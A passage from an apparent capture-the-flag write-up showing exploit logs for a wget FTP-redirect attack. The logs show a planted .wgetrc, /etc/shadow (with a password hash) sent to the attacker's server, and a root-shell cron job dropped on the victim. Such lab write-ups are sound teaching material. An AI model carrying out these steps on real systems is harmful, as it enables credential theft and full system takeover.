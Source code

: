 
There is a connection at the FTP server as well:

    
    
    [I 2021-05-15 13:43:25] 10.10.10.55:36996-[] FTP session opened (connect)
    

After a minute, the first request comes in, a GET, and it’s handled with the
redirect:

    
    
    We have a volunteer requesting /archive.tar.gz by GET :)
    
    Uploading .wgetrc via ftp redirect vuln. It should land in /root 
    
    10.0.3.133 - - [15/May/2021 13:44:01] "GET /archive.tar.gz HTTP/1.1" 301 -
    Sending redirect to ftp://anonymous@10.10.10.55:21/.wgetrc
    

Immediately after there’s another connecting on FTP:

    
    
    [I 2021-05-15 13:44:01] 10.0.3.133:38434-[] FTP session opened (connect)
    [I 2021-05-15 13:44:01] 10.0.3.133:38434-[anonymous] USER 'anonymous' logged in.
    [I 2021-05-15 13:44:01] 10.0.3.133:38434-[anonymous] RETR /tmp/.0xdf/.wgetrc completed=1 bytes=70 seconds=0.002
    [I 2021-05-15 13:44:01] 10.0.3.133:38434-[anonymous] FTP session closed (disconnect).
    

Now the config file is in place, the next time the script tries to run, I
should see a POST request. It worked:

    
    
    We have a volunteer requesting /archive.tar.gz by POST :)
                                            
    Received POST from wget, this should be the extracted /etc/shadow file:   
    
    ---[begin]---
     root:*:17366:0:99999:7:::
    daemon:*:17366:0:99999:7:::
    bin:*:17366:0:99999:7:::
    ...[snip]...
    sshd:*:17366:0:99999:7:::
    ubuntu:$6$edpgQgfs$CcJqGkt.zKOsMx1LCTCvqXyHCzvyCy1nsEg9pq1.dCUizK/98r4bNtLueQr4ivipOiNlcpX26EqBTVD2o8w4h0:17368:0:99999:7:::
      
    ---[eof]---
    
    
    Sending back a cronjob script as a thank-you for the file...
    It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)
    10.0.3.133 - - [15/May/2021 13:46:01] "POST /archive.tar.gz HTTP/1.1" 200 -
    
    File was served. Check on /root/hacked-via-wget on the victim's host in a minute! :)
    

The `shadow` file doesn’t have anything that useful in it. But hopefully this
indicates that the `cron` was written. One minute later:

    